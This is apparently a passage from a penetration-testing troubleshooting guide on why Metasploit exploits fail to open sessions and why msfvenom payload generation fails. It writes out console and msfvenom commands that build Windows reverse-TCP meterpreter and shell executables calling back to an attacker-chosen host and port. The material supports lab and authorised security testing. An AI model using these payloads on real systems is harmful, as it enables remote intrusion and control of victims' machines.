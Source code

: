 **Alternative Research:**
- Google: "service_name version exploit"
- Check exploit-db.com directly
- Look for known CVEs for the software

---

### **Problem 4: Metasploit Exploit Fails**

**What You See:**
```bash
msf6 exploit(windows/http/service_exploit) > exploit
[*] Started reverse TCP handler on 10.10.31.2:4444
[*] Exploit completed, but no session was created.
```

**Debugging Steps:**
```bash
# Check required options
show options
show missing

# Verify target settings
show targets
set TARGET 0

# Try different payload
show payloads
set PAYLOAD windows/shell/reverse_tcp

# Check advanced options
show advanced
set VERBOSE true
exploit
```

**Common Issues:**
- Wrong target platform/architecture
- Firewall blocking reverse connection
- Service version mismatch
- Wrong payload type

---

### **Problem 5: Payload Generation Fails**

**What You See:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
# Error: Could not generate payload
```

**Solutions:**
```bash
# Check payload syntax
msfvenom --list payloads | grep windows/meterpreter

# Verify parameters
msfvenom -p windows/meterpreter/reverse_tcp --list-options

# Try simpler payload
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > simple.exe

# Check file permissions
ls -la payload.exe
chmod +x payload.exe
```
